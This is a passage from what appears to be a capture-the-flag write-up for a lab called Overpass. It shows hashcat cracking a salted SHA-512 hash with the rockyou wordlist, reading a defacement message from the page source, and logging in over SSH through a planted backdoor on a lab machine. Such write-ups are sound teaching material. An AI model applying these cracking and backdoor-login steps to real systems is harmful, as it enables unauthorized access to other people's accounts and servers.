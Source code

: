 ```
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sun Mar 14 19:28:52 2021, (0 secs)
Time.Estimated...: Sun Mar 14 19:28:52 2021, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   300.1 kH/s (0.77ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika
```

## Task 3: Attack - Get back in!

"Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!"

**1) The attacker defaced the website. What message did they leave as a heading?

Navigate to the site and view the source.

```html
<h1>H4ck3d by CooctusClan</h1>
```

**2) What's the user flag?**

Alright, now that we've gotten the credentials for the backdoor... let's try to ssh in with them!

```
ssh james@10.10.70.23 -p 2222
The authenticity of host '[10.10.70.23]:2222 ([10.10.70.23]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.70.23]:2222' (RSA) to the list of known hosts.
james@10.10.70.23's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```
